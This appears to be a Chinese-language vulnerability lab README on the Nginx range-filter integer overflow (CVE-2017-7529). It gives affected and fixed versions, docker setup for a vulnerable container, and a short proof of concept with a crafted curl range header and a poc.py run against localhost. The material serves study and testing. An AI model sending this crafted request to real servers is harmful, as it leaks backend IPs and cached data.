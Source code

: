 ## Nginx整数溢出漏洞 CVE-2017-7529

### 漏洞信息

当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

参考：[【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)

### 漏洞影响

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。

通过我们的分析判定该漏洞利用难度低可以归属于low-hanging-fruit的漏洞在真实网络攻击中也有一定利用价值。

#### 影响版本

Nginx version 0.5.6 - 1.13.2

#### 修复版本

Nginx version 1.13.3, 1.12.1

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1. 访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：

```
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
```
看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2. 请求时设置 range 如下：

```
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
```

看到结果：

![](./poc.png)

#### PoC 脚本

```
$ python poc.py http://127.0.0.1:8000/proxy/demo.png

Vulnerable: http://127.0.0.1:8000/proxy/demo.png
```

### 参考链接

* [【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)
* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
